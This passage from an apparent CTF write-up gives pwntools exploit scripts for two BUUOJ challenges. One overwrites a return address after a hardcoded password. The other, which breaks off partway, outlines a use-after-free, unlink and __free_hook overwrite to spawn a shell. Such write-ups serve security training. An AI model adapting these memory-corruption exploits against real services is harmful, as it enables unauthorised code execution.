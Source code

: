 ## [ZJCTF 2019]Login

```python
from pwn import *
context.log_level = 'debug'
p = process("./login")
p = remote("node4.buuoj.cn",29972)
p.sendlineafter("username: ","admin")
passwd = "2jctf_pa5sw0rd"
back = 0x400E88
payload = passwd + "\x00"*(0x48-len(passwd)) + p64(back)

p.send(payload)
p.interactive()
```

## wdb_2018_1st_babyheap

1. uaf泄露堆地址
2. 伪造chunk触发unlink，泄露main_arena+0x58的地址
3. 计算free_hook和system地址，写入free_hook
4. 触发free("/bin/sh")，getshell

```python
from pwn import *

#p = process("./w")
libc = ELF("./libc-2.23.so")
p = remote("node4.buuoj.cn",29942)
context.log_level = "debug"


def allocate(id,content):
	p.sendlineafter("Choice:","1")
	p.sendlineafter("Index:",str(id))
	p.sendafter("Content",content)


def show(id):
	p.sendlineafter("Choice:","3")
	p.sendlineafter("Index:",str(id))


def delete(id):
	p.sendlineafter("Choice:","4")
	p.sendlineafter("Index:",str(id))


def edit(id,content):
	p.sendlineafter("Choice:","2")
	p.sendlineafter("Index:",str(id))
	p.sendafter("Content:",content)




p.recv()
#sleep(4)
allocate(0,(p64(0)+p64(0x31))*2)
allocate(1,"bbbb\n")
allocate(2,"cccc\n")

allocate(3,"dddd\n")
allocate(4,str("/bin/sh\n"))
```